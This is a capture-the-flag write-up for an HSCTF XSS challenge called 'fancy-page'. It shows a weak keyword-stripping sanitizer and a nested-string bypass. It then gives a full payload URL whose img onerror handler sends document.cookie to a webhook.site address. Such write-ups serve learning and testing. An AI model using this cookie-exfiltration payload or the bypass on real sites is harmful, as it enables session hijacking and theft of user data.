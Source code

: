 # fancy-page
> http://fancy-page.hsctf.com

## About the Challenge
We have been given a source code (You can download the source code [here](fancy-page.zip)). Inside the source code there is a JavaScript file called `display.js`. Here is the content of the file

```js
import { default as Arg } from "https://cdn.jsdelivr.net/npm/@vunamhung/arg.js@1.4.0/+esm";

function sanitize(content) {
	return content.replace(/script|on|iframe|object|embed|cookie/gi, "");
}

let title = document.getElementById("title");
let content = document.getElementById("content");

function display() {
	title.textContent = Arg("title");
	document.title = Arg("title");

	let sanitized = sanitize(Arg("content"));
	content.innerHTML = sanitized;

	document.body.style.backgroundColor = Arg("background_color");
	document.body.style.color = Arg("color");
	document.body.style.fontFamily = Arg("font");
	content.style.fontSize = Arg("font_size") + "px";
}

display();
```

As you can see, this is a XSS challenge, but there is some sanitization applied to certain strings, such as `script`, `on`, `iframe`, `object`, `embed`, and `cookie`

## How to Solve?
To bypass the sanitization im using `string within a string`. For example

```
cookie => ""
coocookiekie => "cookie"
```

And here is the payload I used to solve this chall

```
http://fancy-page.hsctf.com/display.html?title=test&content=test%3Cimg/src/oonnerror%3Dlocatioonn.replace(%27https://webhook.site/bbd37165-3069-4602-8ffe-56a1c7e6a8a1%2F%3F%27%2Bdocument.coocookiekie)%3E&background_color=%23ffffff&color=%23000000&font=Helvetica&font_size=16
```

And then check webhook to obtain the flag

![flag](images/flag.png)

```
flag{filter_fail}
```